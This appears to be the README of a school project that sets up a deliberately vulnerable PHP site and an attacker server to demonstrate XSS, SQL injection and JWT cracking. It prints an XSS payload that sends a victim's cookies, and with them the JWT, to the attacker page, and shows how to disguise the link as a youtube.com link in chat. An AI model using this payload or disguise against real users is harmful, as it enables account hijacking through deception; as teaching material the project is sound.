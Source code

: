 # XSS and MySQLi vulnerability website
> Made for school project

## Installation

### Requirements
1. XAMPP
2. Node.js >= v18.x.x
3. NPM >= 8.19.2

### Installation steps

#### Victim's PC
1. Install XAMPP
2. Open XAMPP's ``htdocs folder``
3. Create folder called ``XSS_Example`` and Open it
4. Clone this repo ```git clone https://github.com/Lukeuke/xss_showcase.git``` or download ZIP and extract into the following folder
5. Create database called ``xss_attack_db`` and import ``xss_attack_db.sql``
6. Open your website on your browser. Url will be probably ``localhost/XSS_Example`` if you did all the steps correctly
7. Then select the ``victim`` folder

#### Attacker's PC
1. Make sure you have ``NODE.js`` and ``NPM`` installed
2. Go to ``attacker`` folder in your cloned repo in htdocs
3. Open Console/Terminal and type ```npm i``` or ```npm install```
4. After this ``node_modules`` folder should be created
5. Open Console/Terminal and type ``ipconfig`` and grab your local network IP. It will be most probably Ethernet or Wireless Adapter and IP probably be something like ``192.168.x.x``
6. In attacker folder open in your code editor of choice file ``server.js`` and change this section to your matching local network IP
```js
36. app.listen(3000, '192.168.1.100'); // Change this -> '192.168.1.100'
```
7. Do the same with ``index.html`` Open and change to your local IP in 22 line.
8. ```fetch("http://x.x.x.x:3000/"``` change only this where is ``x``
9. Run the server. In Console/Terminal type ``node server.js``

##### If you did all the steps correctly you should have both attacker and victim page running

## Attacks

### XSS
>hint: Products search is vulnerable for XSS attack. try typing in search input: <script>alert('XSS')</script>

### MySql Injection
> Try to find one. There are RAW sql queries. Not escaped.

### JWT Signature bruteforce
> install https://github.com/lmammino/jwt-cracker and try to bruteforce the JWT Signing Key

## About
This project shows how can you grab someones JWT token by XSS attack. If your victim is logged in you simply sends them:
  
  http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E

or if you are using chat app that supports markdown you can embed this link so its more hidden, like this:
  
  ```md
[youtube.com](http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E)
  ```

on the chat he will see that the link is actually the youtube.com but in reality it grabs his token and sends it to you. Example how it will look:

[youtube.com](http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E)

## How does it work?
  It injects the <script></script> tag into your DOM
  and then executes JavaScript Code which is:
  
  ```js
  window.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)
  ```
  
  it replaces your URL with attackers website and grabs your cookies from vulnerable website.
  In cookies are stored JWT.
  If the attacker have your JWT then also have access to your whole account.

